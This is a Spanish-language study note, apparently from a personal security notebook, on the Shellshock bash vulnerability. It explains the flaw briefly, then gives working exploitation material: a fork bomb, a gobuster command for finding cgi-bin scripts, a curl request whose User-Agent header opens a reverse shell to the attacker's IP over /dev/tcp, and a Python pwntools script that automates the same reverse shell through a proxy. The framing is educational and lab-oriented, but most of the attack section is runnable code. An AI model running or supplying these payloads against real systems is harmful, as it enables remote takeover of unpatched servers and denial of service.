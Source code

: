 ----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **ataque ShellShock** ? 

### Un ataque **ShellShock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática. 

### Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar porgramas maliciosos, etc. 

### La vulnerabilidad ShellShock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de Shell. El problema radica en la forma en que Bahs maneja las variable de entorno. Los atacantes pueden inyectar código malicoso en estas variables de entorno, las cuales Bash ejecuta sin cuestion su origin o contenido. 

### Los atacantes pueden explotar estas vulnerabilidades a través de diferentes vectores de atauqe. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para indentifcar el tipo de navegador y sistema operativo qu está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

---

# Expotación 

### Para explotar un ShellShock Attack, es importante tener en cuenta que para saber si este es vulnerable, es necesario probarlo, asi como tener en cuenta que este funciona para viejas versiones de bash. 

### Existen [páginas webs](https://blog.cloudflare.com/inside-shellshock/) que enseñan a explotar dicha vulnerabilidad, esto suele ser posible a traves del **User-Agent** el cual recibe como valor un payload con la sig. estructura: `() { :; }; echo; <commando_to_execute>`. Este payload es simpilar al del [Fork Bomb Attack](https://en.wikipedia.org/wiki/Fork_bomb) el cual es un ataque de denegación de servicio con la estructura de: 
```shell 
:(){:|:&};:
# O 
fork(){
	fork | fork &
}; 
fork 

```

### Por lo que se podria tramitar una petición curl de la sig. manera, teniendo en cuenta que mediante *gobuster* se encontro por fuzzing la URL **cig-bin**, sabiendo que siempre que veamos una ruta como esta es importante probar un **ShellShock Attack**: 

```shell
# Es importante al descubrir un dir cgi-bin, buscar archivos con la extensión pl o sh o cgi. 
gobuster dir -u http://<ip>:<port>/cgi-bin --proxy http://<proxy_ip>:<proxy_port> -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

```shell
curl --proxy http://<proxy_ip>:<proxy_port> -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &>/dev/tcp/<own_ip>/<port> 0>&1'" "http://<ip>:<port>/cgi-bin/status"
```

### Así mismo, podríamos crear un script en python para entablar una consola interactiva o mismo para ejecutar comandos 

```python
#!/usr/bin/python3 

import sys, signal, requests, threading
from pwn import * 

# Ctrl + c

def ctrl_c(sig, frame): 
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars 

url = "http://192.168.1.38/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.1.38:3128'}
lport = 443

# Bin 

def shell_shock(): #command 

    headers = {'User-Agent':'() { :; }; echo; /bin/bash -c "/bin/bash -i &>/dev/tcp/192.168.1.35/443 0>&1"'}
    #user_agent = {'User-Agent': '() { :; }; echo; %s' % (command)} 

    r = requests.get(url, headers=headers, proxies=squid_proxy)
    #print("\n\n\t(!) Output del comando: %s" % (r.text))

if __name__ == "__main__": 
    #command = input("Ingrese un comando a ejecutar: ")
    #shell_shock(command)
    try:
        threading.Thread(target=shell_shock, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        log.failure("No se pudo establecer la conexión")
        sys.exit(1)
    else: 
        shell.interactive()
```

### La libreria **pwntools/pwn** sirve para poder entablar una consola interactiva, entre otras cosas. Mientras que la libreria **threading** para ejecutar las cosas con hilos. 

#### threading.Thread().start()   ---->  **Iniciar un nuevo hilo**
#### target=() ----> **Función a ejecutar** 
#### args=() ----> **Argumentos a pasarle a la función** 

#### listen() ----> **Ponerse en escucha a espera de una conexión** 
#### lport, timeout=20 -----> **Puerto, Tiempo de espera** 
#### .interactive() ----> **Abrir la consola en base de la conexión** 

